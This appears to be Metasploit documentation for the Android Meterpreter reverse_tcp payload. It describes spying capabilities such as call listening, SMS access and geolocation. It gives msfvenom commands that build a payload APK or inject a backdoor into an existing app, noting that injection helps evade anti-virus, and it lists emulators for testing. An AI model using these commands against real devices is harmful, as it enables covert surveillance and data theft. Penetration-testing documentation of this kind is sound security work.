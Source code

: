 The android/meterpreter/reverse_tcp payload is a Java-based Meterpreter that can be used on an
Android device. It is still at an early stage of development, but there are so many things you can
do with it already.

The Android Meterpreter allows you to do things like take remote control the file system, listen to phone calls, retrieve or send SMS messages, geo-locate the user, run post-exploitation modules, etc.


### To create the APK with msfvenom:

```
./msfvenom -p android/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f raw -o /tmp/android.apk
```

### To inject meterpreter into an existing APK with msfvenom:

You can also add Android meterpreter to any existing APK. This will make it harder for
Anti-virus software to detect the payload, and allow you read internal files and take
screenshots of the Android app that you are backdooring:

```
./msfvenom -p android/meterpreter/reverse_tcp -x com.existing.apk LHOST=[IP] LPORT=4444 -f raw -o /tmp/android.apk
```

[Please see here for more documentation on Android injection](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/android/meterpreter/injection.md).


Next, start an Android device. Upload the APK, and execute it. There are different ways to do this.


## Vulnerable Application

You can test android/meterpreter/reverse_tcp on these devices:

**Android Emulator**

An emulator is the most convenient way to test Android Meterpreter. You can try:

* [Bluestacks](https://www.bluestacks.com/)  - Very easy to install Android Emulator on Windows.
* [Android SDK](http://developer.android.com/sdk/index.html#Other) - Creates and manages your emulators from a command prompt or terminal.
* [Android Studio](http://developer.android.com/sdk/installing/index.html?pkg=studio) - Allows you to manage emulators more easily than the SDK.
* [GenyMotion](https://www.genymotion.com/download/) - Requires an account. 
* [AndroidAVDRepo](https://github.com/dral3x/AndroidAVDRepo) - Contains a collection of pre-configured emulators.


**A real Android device**

Having a real Android device allows you to test features or vulnerabilities you don't necessarily
have from an emulator, which might be specific to a manufacturer, carrier, or hardware. You also
get to test it over a real network.
